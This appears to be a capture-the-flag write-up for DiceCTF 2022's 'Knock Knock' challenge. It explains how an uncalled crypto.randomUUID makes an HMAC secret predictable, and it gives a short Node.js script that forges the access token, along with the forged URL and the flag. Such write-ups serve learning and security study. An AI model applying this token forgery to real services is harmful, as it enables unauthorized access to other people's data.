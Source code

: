# Knock Knock

# Background
This chall is strange and really cool also and make me to learn node js from basic back.


# Vuln detect
So, there is two mistake in source code if you look carefully.

1. In below, you can see the `this.secret` object will craete a hash with `randomUUID`. but this will just return a `undefined` [Example file](https://github.com/Vimer101/private-ctf-solves/blob/main/Dice-CTF-2022/Knock-Knock/example.js). 
  **don't ask me why because i am noob at js**
```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
2. as a below source, we can know that Developer generate a `token` value with a `id`, also create the hash with `this.secret` object too: 
  `createHmac('sha256', this.secret`. And the most scary part is that know the secret's value :). it is `secret-${crypto.randomUUID}`!!.
```
generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret) // here is main vuln
      .update(id.toString()) 
      .digest('hex');
  }
}
```

So, we know the vuln now, what need to do? and also how we can get flag? answer is in below!!

# Solution
So first, we know the secret value!.

and this line make us to get easier `else res.send(note.data);`. by this line, we can know that if we pass `note.error`, we will get the data that return.
 and there is only data to return in database is FLAG!!!!!!!!!.
 
 So, why not create our own hash for token?. let create!!
 
 # Solve.js
 ```
const crypto = require('crypto');
secret = `secret-${crypto.randomUUID}`;

console.log(`${crypto.createHmac('sha256', secret).update('0').digest('hex')}`);
 ```
this output this hash `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`. 

**Note**: the hash will be diffrent dude to node version. i used node version `17.4.0`. you have to be same or at least not too outdate with the challenge's server node version.

# get flag
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
`dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`

# To CTF orgraziners
Thanks for really awesome Web challenges and other challs too.

Thanks for reading all!!
